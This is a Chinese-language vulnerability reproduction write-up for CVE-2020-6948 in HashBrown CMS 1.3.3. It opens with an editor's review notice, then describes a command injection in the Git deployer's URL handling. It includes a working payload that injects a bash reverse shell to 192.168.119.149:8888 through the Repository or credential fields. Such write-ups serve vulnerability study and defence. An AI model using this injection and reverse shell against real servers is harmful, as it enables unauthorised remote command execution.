





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：登录并可建立Git部署connection，触发media；Linux bash及出网仅反连载荷条件

- **适用与权限边界（1）**：简介未标认证，影响章节只1.3.3而简介&lt;=1.3.3；具体角色未列。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：声称Repository/Branch/username/password都可用仅示例一处，无各字段拼接证据文本。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：图链接重复残片；来源URL携带大量跟踪/临时key参数应清理保留稳定文章链接。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2020-6948）HashBrown CMS 远程命令执行漏洞
===============================================

一、漏洞简介
------------

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS
1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

HashBrown CMS 1.3.3

三、复现过程
------------

在之前收集的资料里面总结了发现漏洞基本有三个方法：

-   通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。<https://github.com/wireghoul/graudit>
    这个项目就罗列了很多语言的关键词可以用作参考。

-   根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。

-   通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown
CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep
之后发现了下面的结果。

HashBrownCMS远程命令执行漏洞/media/rId25.png)

看来这个应用使用git 相关命令，如果可以传入url
参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js
文件查看源代码。

HashBrownCMS远程命令执行漏洞/media/rId26.png)

其中可以看到url由username，password，和repro
几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。

    https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1

配置如下：

HashBrownCMS远程命令执行漏洞/media/rId27.png)

然后点击media菜单触发git命令执行

HashBrownCMS远程命令执行漏洞/media/rId28.png)

接下来在监听的机器上就可以获得shell了

HashBrownCMS远程命令执行漏洞/media/rId29.png)

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j>
